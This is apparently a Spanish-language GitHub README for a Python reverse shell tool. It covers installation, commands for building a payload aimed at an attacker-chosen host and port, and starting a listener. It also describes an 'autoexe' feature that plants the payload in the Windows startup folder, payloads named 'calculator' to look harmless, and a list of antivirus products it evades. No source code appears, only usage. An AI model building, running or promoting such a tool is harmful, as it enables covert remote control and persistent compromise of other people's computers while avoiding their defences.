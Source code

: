 # Reverse Shell

Proyecto que consiste en generar un payload de reverse shell en python, el cual se ejecuta en la máquina objetivo y se conecta a un servidor controlado por el atacante.

- [Reverse Shell](#reverse-shell)
  - [Requisitos](#requisitos)
  - [Instalación](#instalación)
  - [Uso](#uso)
  - [Comandos](#comandos)
  - [Ejemplos](#ejemplos)
    - [Payload](#payload)
    - [Servidor en escucha](#servidor-en-escucha)
    - [Autoexe](#autoexe)
  - [Pruebas realizadas en antivirus](#pruebas-realizadas-en-antivirus)
  - [Resultados de virustotal.com](#resultados-de-virustotalcom)
  - [Capturas](#capturas)

## Requisitos

- ![Static Badge](https://img.shields.io/badge/Python-^3.12-yellow?logo=python&logoColor=white)

## Instalación

Clona el repositorio

```bash
git clone https://github.com/epmyas2022/reverse_shell.git
```

Entra al directorio del proyecto

```bash
cd reverse_shell
```

Instala las dependencias

```bash
pip install -r requirements.txt
```

## Uso

```bash
python reverse_shell.py
```

## Comandos

- `help`: Muestra la lista de comandos disponibles.
- `generate`: Genera un payload de reverse shell en python.
- `execute`: Inicia un servidor que escucha las conexiones de los payloads generados.
- `autoexe`: Genera un exe que creara una copia del payload en la carpeta de inicio de Windows.
- `set`: Establece el valor de una variable.
- `exit`: Salir del programa.

## Ejemplos

Generar un payload de reverse shell especificando la dirección IP y el puerto del servidor

El siguiente comando setea la direccion IP del payload:

### Payload

```bash
set generate.lhost 10.0.0.20
```

El siguiente comando setea el puerto del payload:

```bash
set generate.lport 4444
```

El siguiente comando genera el payload:

```bash
generate
```

![Reverse Shell Generate Command](./images/payload.png)

Los payloads generados se guardan en la carpeta raíz del proyecto. con el siguiente nombre: `calculator-{timestamp}`

### Servidor en escucha

Iniciar el servidor que escucha las conexiones de los payloads generados

El siguiente comando setea el puerto del servidor:

```bash
set session.lport 4444
```

El siguient comando setea el host del servidor:

```bash
set session.lhost 10.0.0.20
```

El siguiente comando inicia el servidor:

```bash
execute
```

![Reverse Shell Execute Command](./images/execute.png)

Para detener la escucha del servidor, presiona `Ctrl + C`

Para salir de la sesión, ejecuta el comando `exit`

### Autoexe

Generar un autoexe creara una copia del payload en la carpeta de inicio de Windows.

Antes que nada, se debe generar un payload.

El siguiente comando setea el nombre del archivo:

```bash
set windows.autoexe.path <nombre_del_payload>
```

El siguiente comando genera el autoexe:

```bash
autoexe
```

![Reverse Shell Autoexe Command](./images/autoexe.png)

## Pruebas realizadas en antivirus

✅ = No detectado
❌ = Detectado

- Windows Defender [✅]
- Avast [✅]
- ESETNOD32 [✅]
- McAfee [✅]
- Bitdefender [✅]
- Bkav Pro [❌]
- SecureAge [❌]
- Kaspersky [❌]
- Skyhigh (SWG) [❌]

## Resultados de virustotal.com

<a href="https://www.virustotal.com/gui/file/a3529b34abafcf1bb4ae8bebb464d7a79a22ea1bd9a14dfdd53072edd2d28911">Payload</a>
  
<a href="https://www.virustotal.com/gui/file/9988d8ba90ad03359e79be815032e616d1f76432a12208c659b1cd2a8a719f7b/detection">Autoexe</a>

## Capturas

![Reverse Shell](./images/image.png)
